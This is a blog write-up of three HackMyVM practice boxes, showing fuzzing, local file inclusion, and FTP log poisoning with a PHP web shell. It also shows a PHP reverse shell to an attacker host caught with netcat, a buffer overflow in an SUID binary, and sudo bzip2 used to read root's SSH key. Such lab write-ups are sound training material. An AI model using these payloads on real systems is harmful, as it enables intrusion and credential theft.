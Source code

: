 ```yaml
---
layout: post
title:  "HackMyVM: Superhuman, Brain and Eyes"
date:   2022-01-22 17:00:00 +1100
category: hacking
---
```


I've done a few more HackMyVM boxes: Superhuman, Brain and Eyes. Superhuman and Brain were Easy rated, Eyes is Medium. 

## Superhuman
This was essentially weaponised guessing, followed by GTFOBins privesc (I think, I didn't take notes). The only interesting (?) command was this one:

{% highlight shell %}
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.63/salome_and_FUZZ.zip -fc 403 -ac -v -fw 18
{% endhighlight %}

Also I guess *ciphey* was actually useful which tbh was a first for me:

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/brain]
└─# cat ../superhuman/notes-tips.txt 
F(&m'D.Oi#De4!--ZgJT@;^00D.P7@8LJ?tF)N1B@:UuC/g+jUD'3nBEb-A+De'u)F!,")@:UuC/g(Km+CoM$DJL@Q+Dbb6ATDi7De:+g@<HBpDImi@/hSb!FDl(?A9)g1CERG3Cb?i%-Z!TAGB.D>AKYYtEZed5E,T<)+CT.u+EM4--Z!TAA7]grEb-A1AM,)s-Z!TADIIBn+DGp?F(&m'D.R'_DId*=59NN?A8c?5F<G@:Dg*f@$:u@WF`VXIDJsV>AoD^&ATT&:D]j+0G%De1F<G"0A0>i6F<G!7B5_^!+D#e>ASuR'Df-\,ARf.kF(HIc+CoD.-ZgJE@<Q3)D09?%+EMXCEa`Tl/c


┌──(root💀kali)-[/opt/hackmyvm/brain]
└─# cat ../superhuman/plaintext 
┌──(root💀kali)-[/opt/hackmyvm/superhuman]
└─# ciphey -f notes-tips.txt    
Possible plaintext: "salome doesn't want me, I'm so sad... i'm sure god is dead... \nI drank 6 liters of Paulaner.... too drunk lol. I'll write her a poem and
she'll desire me. I'll name it salome_and_?? I don't know.\n\nI must not forget to save it and put a good extension because I don't have much storage." (y/N):y
{% endhighlight %}

## Brain
This was an LFI to obtain a password for the foothold and then connecting to an internal service to get another password for the privesc. The only interesting part here was that the file to include was **/proc/sched_debug** which doesn't appear in the standard seclists entries for LFI fuzzing. So that was interesting. 

``
GET /brainstorm/file.php?file=/proc/sched_debug HTTP/1.1
``

{% highlight shell %}
┌──(root💀kali)-[/usr/share/seclists/Fuzzing/LFI]
└─# grep -r sched_debug
# crickets chirping
┌──(root💀kali)-[/usr/share/seclists/Fuzzing/LFI]
└─# echo '/proc/sched_debug' >> custom-linux.txt
{% endhighlight %}

## Eyes
This was another LFI, but this time we had access to an anonymous FTP server which gave us the LFI parameter straight up so no fuzzing required. No write access to FTP.

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/eyes]
└─# ftp 10.10.10.65                                                                                                                                    
Connected to 10.10.10.65.
220 (vsFTPd 3.0.3)
Name (10.10.10.65:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lash
229 Entering Extended Passive Mode (|||45956|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        113          4096 Apr 04  2021 .
drwxr-xr-x    2 0        113          4096 Apr 04  2021 ..
-rw-r--r--    1 0        0             125 Apr 04  2021 index.php
226 Directory send OK.
ftp> get index.php
local: index.php remote: index.php
229 Entering Extended Passive Mode (|||45633|)
150 Opening BINARY mode data connection for index.php (125 bytes).
100% |***************************************************************************************************************************|   125       54.03 KiB/s    00:00 ETA
226 Transfer complete.
125 bytes received in 00:00 (45.89 KiB/s)
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||11328|)
550 Permission denied.
ftp>
{% endhighlight %}

What's in the file?

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/eyes]
└─# cat index.php                      
<?php
$file = $_GET['fil3'];
if(isset($file))
{
include($file);
}
else
{
print("Here my eyes...");
}
?>
<!--Monica's eyes-->
{% endhighlight %}

So we have a username, and anyway we can include /etc/passwd and confirm. **Monica** doesn't have an SSH key (spoiler alert) so we can't read it even if we had permission, which we don't. We can include **/var/log/vsftpd.log** so that means we can log poison:

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/eyes]
└─# ftp 10.10.10.65
Connected to 10.10.10.65.
220 (vsFTPd 3.0.3)
Name (10.10.10.65:root): '<?php system($_GET['cmd']);?>'
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> exit
221 Goodbye.
{% endhighlight %}

and

{% highlight shell %}
GET /index.php?fil3=/var/log/vsftpd.log&cmd=php+-r+'$sock%3dfsockopen("10.10.10.2",1234)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
{% endhighlight %}

and

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/eyes]
└─# nc -nvlp 1234                                         
listening on [any] 1234 ...
connect to [10.10.10.2] from (UNKNOWN) [10.10.10.65] 43308
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@eyes:~/html$ ls -lash
ls -lash
total 12K
4.0K drwxr-xr-x 2 root root 4.0K Apr  4  2021 .
4.0K drwxr-xr-x 3 root root 4.0K Apr  4  2021 ..
4.0K -rw-r--r-- 1 root root  125 Apr  4  2021 index.php
www-data@eyes:~/html$
{% endhighlight %}

### Monica
This was the most interesting part here. We have an SUID binary in **/opt/ls**, along with some C code and a note (the note says something about creating a new version of **ls**). 

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <sys/types.h>

int main(void)
{
 char command[100];
 char ls[50]="/usr/bin/ls";
 char name[50];
 printf("Enter your name:");
 gets(name);
 strcpy(command,ls);
 setuid(1000);
 setgid(1000);
 printf("Hi %s, Im executing ls\n Output:\n",name);
 system(command);
}
{% endhighlight %}

So here we the ability to overflow:

{% highlight shell %}
www-data@eyes:/opt$ ./ls
Enter your name:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaidididididididid
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaidididididididid
Hi aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaidididididididid, Im executing ls
 Output:
uid=1000(monica) gid=33(www-data) groups=33(www-data)
www-data@eyes:/opt$
{% endhighlight %}

So now just change the last 'id' to 'sh' and get a shell. Privesc is GTFOBins:

{% highlight shell %}
User monica may run the following commands on eyes:
    (ALL) NOPASSWD: /usr/bin/bzip2
{% endhighlight %}

This gives us a privileged read, and **root** has an SSH key:

{% highlight shell %}
monica@eyes:/etc$ sudo -u root /usr/bin/bzip2 -c /root/.ssh/id_rsa | bzip2 -d
sudo -u root /usr/bin/bzip2 -c /root/.ssh/id_rsa | bzip2 -d
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAA
# etc
{% endhighlight %}

So it's copy, chmod, login and grab the flag. 
